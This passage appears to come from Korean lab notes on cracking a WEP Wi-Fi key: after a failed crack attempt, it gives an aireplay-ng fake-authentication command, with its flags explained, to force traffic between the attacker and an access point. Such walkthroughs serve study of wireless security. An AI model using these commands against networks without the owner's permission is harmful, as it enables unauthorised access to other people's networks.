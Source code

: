 
### 키 크랙

- 키 크랙을 시도한다.
    
    ![unnamed-11.png](img/unnamed-11.png)
    
- 실패했다…

### 패킷 강제 생성

- 이전 과정에서 WEP 크랙에 실패한 원인을 클라이언트와 서버 간 데이터 통신이 충분하지 않았기 때문이라고 판단
    
    ![unnamed-12.png](img/unnamed-12.png)
    
- `aireplay-ng` 명령어를 이용해 강제적으로 공격자와 AP 사이에 데이터를 발생
    
    ```java
    aireplay-ng -1 0 -a <AP’s MAC address> -h <Client’s MAC address> wlan0
    -1: aireplay를 이용해 거짓 인증을 수행한다.
    0: 패킷의 개수
    -a <MAC address>: AP의 MAC 주소를 지정한다.
    -h <Client’s MAC address>: 공격자의 MAC 주소를 지정한다.
    ```
    